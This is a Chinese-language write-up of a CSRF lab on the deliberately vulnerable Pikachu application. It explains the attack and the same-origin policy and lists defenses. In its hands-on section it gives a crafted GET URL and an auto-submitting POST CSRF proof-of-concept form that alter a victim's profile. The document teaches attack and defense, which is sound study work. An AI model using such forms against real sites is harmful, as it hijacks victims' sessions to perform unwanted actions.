







> Environment: PHP 5.2.17 + MySQL 5.7.26
> Lab: Pikachu

---

## 1.0 CSRF (跨站请求伪造)

#### 01 定义: 

CSRF, 攻击者诱导已登录的用户在不知情情况下执行非本意操作, 完成恶意请求

- 利用 Web 应用的**身份验证机制**和**会话管理机制**的固有缺陷:
  - 服务器无法区分请求是**用户主动发起**, 或**用户被动触发**
  - 请求携带有效的 Session Cookie, 服务器认为"合法"

#### 02 漏洞成因

- 浏览器会自动携带目标站点Cookie发起跨站请求, 服务端仅靠Cookie/Session做身份校验, 不能保证请求是否由用户本人主动发起.
- 常见缺失防御:
  - 未校验 CSRF-Token;
  - 未校验 Referer / Origin 请求头;
  - 关键业务接口无二次身份校验.

#### 03 攻击流程

> 以下 CSRF 攻击链逻辑图解



#### 04 CSRF 三要素

- **目标操作:** 存在可被请求直接触发的业务接口(修改信息, 转账, 修改密码)
- **会话依赖Cookie:** 浏览器自动带上Cookie, 服务端仅凭Cookie识别用户身份
- **请求参数可控:** 接口请求参数可被攻击者完全预知, 构造, 无随机不可预测的校验 `Token`

> 注意: CSRF不能获取 Cookie, 不能读取响应, 只能借用受害者身份执行操作.

---

### 1.1 同源策略

#### 01 定义: 

`同源策略`指在 web 浏览器中, 允许某个网页脚本访问另一个网页的数据, 但前提是两个网页必须同源, 不同源的客户端脚本在没有明确授权的情况下, 不能读写对方的资源, 如`Cookie`, `同源策略` 是浏览器安全模型, W3C标准规范

- web应用程序广泛依赖于`Cookie`维持会话, 所以必须将不相关网站严格分隔, 防止数据泄露

#### 02 案例

`同源策略` 需要对比两者`域名(host)`, `端口`, `协议`, 三者完全相同即同源.

案例: 与`http://www.example.com/index/index.php`比较

| 源                                           | 是否同源 | 原因     |
| -------------------------------------------- | -------- | -------- |
| http://test.example.com/admin/index.php      | 否       | 域名不同 |
| https://test.example.com/admin/index.php     | 否       | 协议不同 |
| http://test.example.com:8080/admin/index.php | 否       | 端口不同 |
| http://www.example.com/test/index.php        | 是       | 同源策略 |

#### 03 核心

- 同源策略不会阻止`表单`, `img` , `script`, `iframe`, `link`等标签发起跨站请求, 只阻止 JS 读取跨站返回结果, 这正是CSRF 能够生效的底层原理: 浏览器可以跨域发请求, 自动带上 Cookie, 只是 JS 拿不到返回包

---

## 2.0 CSRF 实战

> 以下实战基于Pikachu靶场
>
> 原理: 构造完整带参数 URL, 诱导登录用户点击链接即可触发

#### Case 1: GET型CSRF

01 根据靶场提示, 选取两个用户, 做如下设计

- vince 作为受害者
- allen 作为攻击者
- Chrome 作为受害者浏览器
- BurpSuite内置浏览器作为攻击者浏览器



02 分别登录vince, allen

03 allen账户选择`修改个人信息`, BurpSuite抓包



> 获取到修改用户信息数据包, 并且以GET传递

04 将请求构造成可访问URL

```html
http://127.0.0.1/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=%E7%94%B7&phonenum=18888888888&add=USA&email=123%40123.com&submit=submit
```

05 使用受害者浏览器访问该URL



> 成功将vince用户个人信息修改为攻击者构造的信息

---

#### Case 2: POST型CSRF

01 初始化靶场

```html
http://127.0.0.1/pikachu/install.php
```

> 案例设计依旧采用Case 1



02 攻击者账户修改个人信息

- 获取到数据包

- 针对数据包构造CSRF_POC

  

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="ç&#148;&#183;" />
      <input type="hidden" name="phonenum" value="18888888888" />
      <input type="hidden" name="add" value="UAS" />
      <input type="hidden" name="email" value="123&#64;123&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> POST‑CSRF 不需要 JS 跨域, 普通 HTML 表单即可完成跨站 POST 提交, 浏览器自动携带 Cookie, 同源策略不拦截表单提交

03 将POC保存为`poc.html`, 模拟受害者账户访问



> 成功将vince用户个人信息修改为攻击者构造的信息

---

## 3.0 CSRF 防御

| 防御                  | 说明                                         | 注意点                                                       |
| --------------------- | -------------------------------------------- | ------------------------------------------------------------ |
| CSRF‑Token            | 表单 / 请求携带随机不可预测 Token, 后端校验  | Token 不能放在 Cookie 中, 应放在表单隐藏域 / 请求头; 每个会话随机生成 |
| Origin / Referer 校验 | 判断请求来源域名是否为可信域名               | Referer 可被伪造, 部分浏览器 / 代理会丢弃 Referer, 只能作为辅助, 不能当唯一防御 |
| 关键操作二次验证      | 修改密码, 转账等高危操作增加验证码, 密码确认 | 业务层                                                       |

---
